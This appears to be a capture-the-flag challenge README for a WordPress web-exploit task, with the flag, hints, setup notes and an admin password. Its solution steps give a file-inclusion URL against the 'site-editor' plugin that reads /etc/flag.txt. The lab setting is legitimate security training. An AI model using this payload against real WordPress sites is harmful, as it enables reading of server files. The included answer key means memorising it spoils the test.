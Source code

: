 
## Problem

Just another exposed web server.  You can find the flag in /etc/flag.txt.  NOTE:  NO TOOLS ARE REQUIRED FOR THIS CHALLENGE!

## Flag
acsc18{StillHaventPatched}  (This is the flag that they will have to enter.  Please use this format)

## Category
Web Exploit

## Hints
1. Wordpress gets lots of extra functionality from the plug-ins a site might have installed
1. A number of websites track vulnerabilities associated with these plugins and other software
1. The site-editor plugin has a lot of power over Wordpress

## Steps
1. A look at the page source reveals a plugin called "site-editor"
1. Looking at https://www.exploit-db.com/exploits/44340/ gives the details of the exploit
1. http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/flag.txt


## Resources Required
* Web server
* MySQL server

###Note:  Must use the docker-compose function to get this to work.  Once it's up and running, navigate to installer.php to finish setup and the disable/reenable all plugins.
wordpress user:  admin  password:  vH5OvOIOiKAi@EJJ!F
